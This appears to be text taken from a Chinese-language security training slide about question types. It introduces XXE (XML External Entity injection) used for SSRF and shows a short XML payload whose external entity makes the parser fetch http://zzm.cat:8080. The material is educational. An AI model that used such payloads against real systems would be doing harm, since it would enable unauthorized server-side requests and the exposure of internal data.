

题目类型
XXE简介：
SSRF
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [<!ENTITY url SYSTEM "http://zzm.cat:8080">]>
<root>&url;</root>